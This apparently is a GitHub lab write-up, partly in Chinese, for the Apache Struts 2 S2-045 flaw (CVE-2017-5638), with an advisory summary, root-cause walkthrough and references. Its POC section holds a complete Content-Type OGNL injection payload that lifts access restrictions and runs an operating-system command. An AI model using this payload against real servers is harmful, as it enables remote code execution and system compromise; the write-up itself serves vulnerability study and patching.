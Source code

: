 # S2-045 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible RCE when performing file upload based on Jakarta Multipart parser |
| Maximum security rating | Critical                                                     |
| Recommendation          | Upgrade to [Struts 2.3.32](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32) or [Struts 2.5.10.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1) |
| Affected Software       | Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10     |
| Reporter                | Nike Zheng <nike dot zheng at dbappsecurity dot com dot cn>  |
| CVE Identifier          | CVE-2017-5638                                                |

## Problem

在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

![{FA66A3B9-0238-4B3D-A51E-8542B25F51EB}_20200724165155]({FA66A3B9-0238-4B3D-A51E-8542B25F51EB}_20200724165155.jpg)

Payload: 

```java
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data;
```

## Debug

详细的debug可参考：

https://blog.csdn.net/u011721501/article/details/60768657

https://paper.seebug.org/247/

这里简单说明一下漏洞成因。

传入非法的Content-type会引发JakartaMultiPartRequest类报错，并调用buildErrorMessage()方法处理错误信息。该方法调用findText()方法时传入了detailMessage参数，而detailMessage参数将Content-type的值拼接了进来。

![image-20200724184101426](image-20200724184101426.png)

一直跟入findText() -> getDefaultMessage() -> translateVariables()，并且传入的是拼接有Content-Type值得message。

![image-20200724185053893](image-20200724185053893.png)

这个translateVariables之前分析过，解析传入的字符串是否是`%{`和`${`打头的，如果有就提取出来作为`ognl`表达式解析。这也是很多struts2 ognl表达式注入漏洞最终的触发点吧。

## Reference

- [S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)
- [S2-045 远程代码执行漏洞（CVE-2017-5638）]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-045/README.zh-cn.md)
- [Struts-S2-045漏洞利用（含环境搭建、含POC）](https://blog.csdn.net/zzkk_/article/details/77159524)

